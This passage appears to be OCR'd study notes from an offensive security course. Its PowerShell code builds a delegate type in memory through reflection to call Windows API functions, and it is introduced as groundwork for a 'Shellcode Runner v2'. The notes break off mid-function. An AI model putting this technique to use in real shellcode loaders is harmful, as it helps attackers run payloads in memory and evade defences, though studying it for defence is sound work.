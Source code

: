 ```powershell
$MyAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')

# Setting the access mode of the MyAssembly to Run
$Domain = [AppDomain]::CurrentDomain
$MyAssemblyBuilder = $Domain.DefineDynamicAssembly($MyAssembly, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)

# Creating a custom module inside the assembly
$MyModuleBuilder = $MyAssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)

# Creating a custom type in the assembly
$MyTypeBuilder = $MyModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

# Creating a constructor for the custom delegate type
$MyConstructorBuilder = $MyTypeBuilder.DefineConstructor(
	'RTSpecialName, HideBySig, Public', 
	[System.Reflection.CallingConventions]::Standard, 
	@([IntPtr], [String], [String], [int]))

# Setting implementation flags for the constructor  
$MyConstructorBuilder.SetImplementationFlags('Runtime, Managed')

#  Defining and configuring the Invoke method
$MyMethodBuilder = $MyTypeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', [int], @([IntPtr], [String], [String], [int]))

$MyMethodBuilder.SetImplementationFlags('Runtime, Managed')

# To instantiate the delegate type, we call our custom constructor through the CreateType method
$MyDelegateType = $MyTypeBuilder.CreateType()

# Have a delegate type to use
$MyFunction = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($MessageBoxA, $MyDelegateType)
$MyFunction.Invoke([IntPtr]::Zero,"DelegateType Reflection",0)
```

![[Pasted image 20240531162916.png]]

## 3.6.4 PowerShell Shellcode Runner v2

The next is the "DelegateType Reflection" optimization code for a function. Remove unnecessary variable, make code neat, ...

```powershell
function getDelegateType {
    Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    
    # creates the custom assembly and defines the module and type inside of it.
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
    [System.MulticastDelegate])

	# sets up the constructor
	$type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
```
